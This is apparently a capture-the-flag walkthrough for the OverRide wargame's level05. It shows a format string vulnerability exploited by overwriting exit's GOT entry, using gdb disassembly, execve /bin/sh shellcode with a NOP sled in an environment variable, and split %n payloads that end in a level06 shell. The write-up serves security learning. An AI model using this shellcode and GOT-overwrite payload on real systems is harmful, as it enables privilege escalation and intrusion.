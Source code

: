 # Walkthrough

After I logged in as `level05` user, I discovered a binary file named `"level05"`. Upon running it, it requested input. I attempted to input some text and noticed that it converted any uppercase letters to lowercase.

```
level05@OverRide:~$ ./level05
AAAAbbbb1234
aaaabbbb1234
```

To better comprehend the program's behavior, I used `gdb` to debug it. Within the `main` function, the input is read using the `fgets` function and stored in a buffer.

```s
   0x0804845d <+25>: mov    eax,ds:0x80497f0
   0x08048462 <+30>: mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>: mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>: lea    eax,[esp+0x28]
   0x08048472 <+46>: mov    DWORD PTR [esp],eax
   0x08048475 <+49>: call   0x8048350 <fgets@plt>
```

The main function then calculates the length of the previous buffer and iterates through each character in the buffer. If a character is uppercase, it is transformed to lowercase using the `XOR` operator.

```s
   0x08048487 <+67>: lea    eax,[esp+0x28]
   0x0804848b <+71>: add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>: movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>: cmp    al,0x40
   0x08048497 <+83>: jle    0x80484cb <main+135>
   0x08048499 <+85>: lea    eax,[esp+0x28]
   0x0804849d <+89>: add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>: movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>: cmp    al,0x5a
   0x080484a9 <+101>: jg     0x80484cb <main+135>
   0x080484ab <+103>: lea    eax,[esp+0x28]
   0x080484af <+107>: add    eax,DWORD PTR [esp+0x8c]
   0x080484b6 <+114>: movzx  eax,BYTE PTR [eax]
   0x080484b9 <+117>: mov    edx,eax
   0x080484bb <+119>: xor    edx,0x20
   0x080484be <+122>: lea    eax,[esp+0x28]
   0x080484c2 <+126>: add    eax,DWORD PTR [esp+0x8c]
   0x080484c9 <+133>: mov    BYTE PTR [eax],dl
   0x080484cb <+135>: add    DWORD PTR [esp+0x8c],0x1
   0x080484d3 <+143>: mov    ebx,DWORD PTR [esp+0x8c]
   0x080484da <+150>: lea    eax,[esp+0x28]
   0x080484de <+154>: mov    DWORD PTR [esp+0x1c],0xffffffff
   0x080484e6 <+162>: mov    edx,eax
   0x080484e8 <+164>: mov    eax,0x0
   0x080484ed <+169>: mov    ecx,DWORD PTR [esp+0x1c]
   0x080484f1 <+173>: mov    edi,edx
   0x080484f3 <+175>: repnz scas al,BYTE PTR es:[edi]
   0x080484f5 <+177>: mov    eax,ecx
   0x080484f7 <+179>: not    eax
   0x080484f9 <+181>: sub    eax,0x1
   0x080484fc <+184>: cmp    ebx,eax
   0x080484fe <+186>: jb     0x8048487 <main+67>
```

The modified buffer is then passed as an argument to the `printf` function to display it, after which the program `exits`.

```s
   0x08048500 <+188>: lea    eax,[esp+0x28]
   0x08048504 <+192>: mov    DWORD PTR [esp],eax
   0x08048507 <+195>: call   0x8048340 <printf@plt>
   0x0804850c <+200>: mov    DWORD PTR [esp],0x0
   0x08048513 <+207>: call   0x8048370 <exit@plt>
```

Upon analyzing the code, it seems that there is a vulnerability in the `printf()` function known as a `format string` vulnerability. This type of vulnerability allows me to provide a format string that contains conversion specifications which enable me to reference memory locations that I am not authorized to access. By using certain conversion specifications like `%x`, `%p`, or `%n`, I can potentially read or write data from arbitrary memory locations.

In this particular case, the format string vulnerability allows me to overwrite the address of the `exit` function in the Global Offset Table `(GOT)`.

The objective is to input a shellcode and modify the `exit` function's address to point to the shellcode's address. However, a problem arises when inputting the shellcode, as the program modifies some of its bytes due to a condition that checks if a character is uppercase.

```
level05@OverRide:~$ python2 -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")' > /tmp/shellcode
------------------------------------------------------------------------------------------------------------------------------------------------
(gdb) r < /tmp/shellcode
Starting program: /home/users/level05/level05 < /tmp/shellcode

(gdb) x/16wx 0xffffd518
0xffffd518: 0x99780b6a 0x2f2f6872 0x2f686873 0x896e6962
0xffffd528: 0xcdc931e3 0x00000a80 0xffffd75c 0x0000002f
```

It is noticeable that at the address `0xffffd51a`, the byte 58 has been modified to 78, and at the address `0xffffd51c`, the byte 52 has been changed to 72.

One possible solution that came to mind was to input the shellcode by storing it in the environment variables instead of passing it directly as input to the program.

```
level05@OverRide:~$ export CODE=`python2 -c 'print("\x90" * 300 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")'`
```

At this point, all that's left to do is to determine the address of the `"CODE"` variable added to the environment and modify the `exit` address to point to the address of the `"CODE"` variable.

```s
(gdb) p (char *) (getenv("CODE"))
$3 = 0xffffde65
(gdb) x/40wx 0xffffde65
0xffffde65: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffde75: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffde85: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffde95: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffdea5: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffdeb5: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffdec5: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffded5: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffdee5: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffdef5: 0x90909090 0x90909090 0x90909090 0x90909090
```

Subsequently, I planned to modify the address of the `exit` function in the Global Offset Table `(GOT)` with the address `0xffffdf00`, which I had randomly selected from the middle of the `NOP` instructions.

Initially, I used the `x` conversion specifier to display the values in hexadecimal format. Subsequently, the resulting output appeared as follows:

```sh
level05@OverRide:~$ python2 -c 'print("aaaa"  + " %x " * 12)' > /tmp/flag
level05@OverRide:~$ cat /tmp/flag | ./level05
aaaa 64  f7fcfac0  f7ec3af9  ffffd69f  ffffd69e  0  ffffffff  ffffd724  f7fdb000  61616161  20782520  20782520
```

In this example, the `printf` function printed a memory address followed by the value `61616161`, which represents the ASCII characters `"aaaa"`. Based on this observation, I decided to pass the memory address of the `exit` function instead of the `aaaa` string.


```s
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>: jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>: push   0x18
   0x0804837b <+11>: jmp    0x8048330
End of assembler dump.
```

To accomplish this, I utilized `Python` to generate the required strings:

```sh
level05@OverRide:~$ python2 -c 'print("\x08\x04\x97\xe0"[::-1]  + " %x " * 10)' > /tmp/flag
level05@OverRide:~$ cat /tmp/flag | ./level05
 64  f7fcfac0  f7ec3af9  ffffd69f  ffffd69e  0  ffffffff  ffffd724  f7fdb000  80497e0
```

As we know, the `%n` conversion specifier can modify the value of the memory address passed to it. Therefore, I decided to replace the last %x conversion specifier with `%n` in the printf function call.

before using the `%n` conversion:

```s
(gdb) r < /tmp/flag
The program being debugged has been started already.
Starting program: /home/users/level05/level05 < /tmp/flag
(gdb) x/wx 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```

after using the `%n` conversion:

```s
(gdb) r < /tmp/flag
The program being debugged has been started already.
Starting program: /home/users/level05/level05 < /tmp/flag
(gdb) x/wx 0x80497e0
0x80497e0 <exit@got.plt>:	0x00000038
```

At this stage, all that is required is to calculate the offset needed to change the value to `0xffffdf00`

```
>>> 0xffffdf00 + 8 - 0x38
4294958800
----------------------------------------------------------------------------------------
level05@OverRide:~$ python2 -c 'print("\x08\x04\x97\xe0"[::-1]  + "%x" * 8 + "%4294958800x%n")' > /tmp/flag
----------------------------------------------------------------------------------------
(gdb) x/wx 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```

It was observed that nothing happened when attempting to modify the value to `0xffffdf00`. This occurred because the number provided for conversion in the `printf` function exceeded the maximum integer value. To resolve this, I decided to split the value into two parts (`0xffff` and `0xdf00`) and pass them to the addresses of `exit` (`0x80497e0` and `0x80497e2`).

```
level05@OverRide:~$ python2 -c 'print("\x08\x04\x97\xe0"[::-1] + "BBBB" + "\x08\x04\x97\xe2"[::-1] + "%x" * 8 + "%x%n" + "%x%n")' > /tmp/flag
---------------------------------------------------------------------------------
(gdb) x/wx 0x80497e0
0x80497e0 <exit@got.plt>:	0x00480040
```

At this point, the only task remaining is to calculate the offset for each conversion.

```sh
level05@OverRide:~$ python2 -c 'print("\x08\x04\x97\xe0"[::-1] + "BBBB" + "\x08\x04\x97\xe2"[::-1] + "%x" * 8 + "%x")' > /tmp/flag
level05@OverRide:~$ cat /tmp/flag | ./level05
bbbb64f7fcfac0f7ec3af9ffffd69fffffd69e0ffffffffffffd724f7fdb000 // 63
---------------------------------------------------------------------------------------------------------------
level05@OverRide:~$ python2
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xdf00 - 63
57025
>>> 0xffff - 0xdf00
8447
level05@OverRide:~$ python2 -c 'print("\x08\x04\x97\xe0"[::-1] + "BBBB" + "\x08\x04\x97\xe2"[::-1] + "%x" * 8 + "%57025x%n" + "%8447x%n")' > /tmp/flag
level05@OverRide:~$ cat /tmp/flag - | ./level05 > /dev/null
whoami 1>&2
level06
cd ../level06
ls -la 1>&2
total 17
dr-xr-x---+ 1 level06 level06   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level06 level06  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level06 level06 3533 Sep 10  2016 .bashrc
-rw-r--r--+ 1 level06 level06   41 Oct 19  2016 .pass
-rw-r--r--  1 level06 level06  675 Sep 10  2016 .profile
-rwsr-s---+ 1 level07 users   7907 Sep 10  2016 level06
```
